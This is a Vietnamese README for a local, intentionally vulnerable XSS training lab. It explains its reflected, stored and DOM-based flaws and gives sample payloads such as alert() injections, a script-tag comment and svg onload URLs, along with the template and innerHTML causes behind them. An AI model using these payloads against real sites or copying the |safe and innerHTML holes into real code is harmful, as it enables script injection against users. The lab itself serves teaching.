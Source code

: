 # XSS Lab (Reflected • Stored • DOM)

## Chạy bằng Python thuần
python -m venv venv
source venv/bin/activate  # Windows: venv\Scripts\activate
pip install -r requirements.txt
python app.py

Mở: `http://localhost:5001`

## Chạy bằng Docker
docker compose up --build -d

Mở: `http://localhost:5001`

---

## 1) Reflected XSS
Trong template có dòng:
```js
<script>
    var id = {{ q }};
</script>
```

Nếu q không phải số, có thể thoát lệnh JS.

Payload mẫu:
- `1;alert(1337)`
- `1;alert(location.hostname)`
- ```1;alert(`Hello`)```

Vì sao `1;alert("x")//` không được? Vì Jinja auto-escape đổi " thành `&quot;` → code thành `alert(&quot;x&quot;)` (JS lỗi cú pháp).
→ dùng backtick ``

## 2) Stored XSS
- Vào `http://localhost:5001/comments`
- Gửi bình luận: `<script>alert('Stored XSS')</script>`
- Reload lại trang → script chạy từ DB.

Nguyên nhân: nội dung bình luận render với `|safe`.

## 3) DOM-based XSS
URL mẫu:
- `http://localhost:5001/dom?msg=<svg/onload=alert(1)>`
- `http://localhost:5001/dom#<svg/onload=alert(1)>`

Nguyên nhân: JS lấy `?msg` hoặc `#hash` rồi `innerHTML` trực tiếp.

